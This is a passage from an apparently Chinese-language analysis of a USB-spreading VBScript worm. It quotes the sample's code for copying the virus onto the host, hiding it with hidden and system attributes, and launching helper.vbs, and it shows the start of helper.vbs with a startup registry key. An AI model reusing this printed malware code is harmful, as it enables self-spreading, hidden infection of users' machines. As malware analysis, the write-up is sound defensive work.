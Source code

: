 下面是moveandhide函数的实现，大概是不存在就复制，复制后设置属性为隐藏

```vb
sub moveandhide (name)
	if (not objws.fileexists(DestFolder & name)) then
		objws.CopyFile strFolder & name, DestFolder & "\"
		Set objmove = objws.GetFile(DestFolder & name)

		If not objmove.Attributes AND 39 then 
			objmove.Attributes = 0
			objmove.Attributes = objmove.Attributes + 39
		end if

	end if
end sub
```

继续向下，可以看到查询了该系统上名为wscript.exe的进程，判断其命令行中是否存在helper.vbs的字样，如果不存在就会运行helper.vbs

这里包括上面的moveandhide都是为了使未感染的电脑感染该病毒，判断helper.vbs是为了不重复运行helper.vbs

```vb
Set objWinMgmt = GetObject("WinMgmts:Root\Cimv2")
Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name = 'wscript.exe'")

For Each objProcess In colProcess
	vaprocess = objProcess.CommandLine
		if instr(vaprocess, "helper.vbs") then
			WScript.quit
		End if
Next


ws.Run Chr(34) & DestFolder & "\helper.vbs" & Chr(34)


Set ws = Nothing
```

#### 小结

这个文件打开了存放U盘中原有文件的文件夹，然后将病毒文件复制到了当前的计算机上，这些文件都被设置了隐藏和系统属性，因此只设置显示隐藏文件是不能看到它们的，然后调用了helper.vbs文件，该文件执行结束

随后我们转到helper.vbs中

### helper.vbs

#### 代码

文件如下：

```vb
on error resume next
Dim ws, strPath, objws, objFile, strFolder, startupPath, MyScript, objWinMgmt, colProcess, vaprocess, miner, tskProcess, nkey, key
Set ws = WScript.CreateObject("WScript.Shell")


nkey = "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\StartupFolder\helper.lnk"

Set objWinMgmt = GetObject("WinMgmts:Root\Cimv2")


strPath = WScript.ScriptFullName
set objws = CreateObject("Scripting.FileSystemObject")
Set objFile = objws.GetFile(strPath)
```